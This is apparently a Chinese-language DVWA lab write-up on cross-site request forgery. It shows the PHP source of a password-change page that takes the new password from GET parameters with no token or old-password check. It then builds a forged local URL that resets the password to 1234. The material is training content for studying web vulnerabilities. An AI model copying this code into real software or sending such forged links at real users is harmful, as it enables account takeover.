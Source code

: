 直接看源码

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $current_user = dvwaCurrentUser();
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

通过get得到三个参数change、password_new、password_conf，password_new和password_conf想同则修改，没有任何防护

构造链接

```
http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#
```
